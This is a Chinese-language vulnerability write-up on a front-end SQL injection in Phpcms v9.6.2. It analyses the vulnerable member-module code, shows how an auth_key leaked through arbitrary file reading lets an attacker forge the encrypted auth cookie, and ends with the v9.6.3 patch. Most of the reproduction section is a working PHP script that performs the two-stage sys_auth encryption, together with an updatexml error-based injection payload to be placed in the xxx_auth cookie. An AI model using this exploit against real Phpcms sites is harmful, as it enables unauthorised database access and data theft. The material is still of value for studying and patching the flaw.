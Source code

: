 Phpcms v9.6.2 前台sql注入
=========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms v9.6.2

三、复现过程
------------

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的
**key** 值，我们可以用这个 **key** 加密我们的 **SQL注入payload**
。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲
**v9.6.2** 版本的注入只能在 **windows**
上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php**
，代码如下图。我们可以明显看到下图第33行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据
**\$phpcms\_auth** 和解密秘钥 **\$auth\_key** 均可构造。

![](./.resource/Phpcmsv9.6.2前台sql注入/media/rId25.png)

我们先来看一下待解密数据 **\$phpcms\_auth**
如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx\_auth**
字段经过 **sys\_auth** 函数解密后，返回给了 **\$phpcms\_auth**
，而默认情况下使用 **pc\_base::load\_config(\'system\', \'auth\_key\')**
作为加解密的 **key** 值。

![](./.resource/Phpcmsv9.6.2前台sql注入/media/rId26.png)

而 **pc\_base::load\_config(\'system\', \'auth\_key\')**
的值在网站搭建好后，会存储在 **caches/configs/system.php**
中，我们可以通过任意文件读取来获得这个值。

![](./.resource/Phpcmsv9.6.2前台sql注入/media/rId27.png)

现在 **\$phpcms\_auth** 已经搞定了，我们再来看看 **\$auth\_key =
get\_auth\_key(\'login\')** 如何构造，跟进 **get\_auth\_key**
的代码。我们可以看到 **\$auth\_key** 由
**\$prefix、pc\_base::load\_config(\'system\',\'auth\_key\')、ip()**
三个元素决定。前两个都是已知的，而第三个获取用户IP的函数存在IP伪造的问题，也可以是固定的。

![](./.resource/Phpcmsv9.6.2前台sql注入/media/rId28.png)

所以 **get\_auth\_key(\'login\')**
的值也是我们可以构造的，剩下的事情只要我们将 **payload**
传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3**
中是如何修复这个漏洞的，补丁如下：

![](./.resource/Phpcmsv9.6.2前台sql注入/media/rId29.png)

可以明显看到，补丁将解密后获得的 **\$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get\_cookie('auth')
得到\$phpcms\_auth，get\_auth\_key('login')得到\$auth\_key，然后sys\_auth(\$phpcms\_auth,
'DECODE', \$auth\_key)。

再通俗些的话：sys\_auth方法对cookie中包含auth的参数名对应的密文值，先使用配置文件中的auth\_key进行sys\_auth得到的值作为第一次解密后的值，然后使用配置文件中的auth\_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，第一次解密后的值与新的key最后传入sys\_auth进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的auth\_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，使用新的key与明文进行sys\_auth得到的值作为第一次加密的密文，然后使用配置文件中的auth\_key作为key与第一次加密的密文传入sys\_auth得到的值作为最终的密文，也就是cookie字段名称中包含auth的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行payload的加解密操作：**

    <?php
    function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
        $ckey_length = 4;
        $key = md5($key != '' ? $key : $auth_key);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);

        $string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);

        $result = '';
        $box = range(0, 255);

        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }

        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }

        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }

        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {

                return '';
            }
        } else {
            return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
        }
    }

    function get_auth_key($prefix,$suffix="",$ip='127.0.0.1',$auth_key='7G6idVtMAxhgFVu5vGp1') {
        if($prefix=='login'){
            $pc_auth_key = md5($auth_key.$ip);
        }else if($prefix=='email'){
            $pc_auth_key = md5($auth_key);
        }else{
            $pc_auth_key = md5($auth_key.$suffix);
        }
        $authkey = md5($prefix.$pc_auth_key);
        return $authkey;
    }

    //解密过程
    //step 1
    $encryption_str = '6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4';
    $operation1 = 'DECODE';
    $decryption_step1 = (sys_auth($encryption_str, $operation1));
    echo 'decryption_step1 result:'.$decryption_step1."\n";

    //step 2
    $decryption_step2 = $decryption_step1;
    $auth_key = get_auth_key('login');
    echo 'decryption_step2 result:'.sys_auth($decryption_step2, 'DECODE', $auth_key)."\n";

    echo '-----------------------'."\n" ;


    //加密过程
    //step 1
    $clear_str = "1'or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336";
    $operation2 = 'ENCODE';
    $encryption_step1 = sys_auth($clear_str, 'ENCODE', $auth_key);
    echo 'encryption_step1 result:'.$encryption_step1."\n";

    //step 2
    $encryption_step2 = (sys_auth($encryption_step1, $operation2));
    echo 'encryption_step2 result:'.$encryption_step2;

使用上面的代码可以进行解密和加密，下图中decryption\_step2
result的值便是对payload进行解密的最终结果，encryption\_step2的值是对payload进行加密的最终结果。

![](./.resource/Phpcmsv9.6.2前台sql注入/media/rId31.png)

最终利用的现象，cookie中的YDVIB\_auth参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的cookie中字段名称中xxx\_auth的参数名称，便是存在漏洞的位置。

![](./.resource/Phpcmsv9.6.2前台sql注入/media/rId32.png)

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
>
> <https://xz.aliyun.com/t/5731>
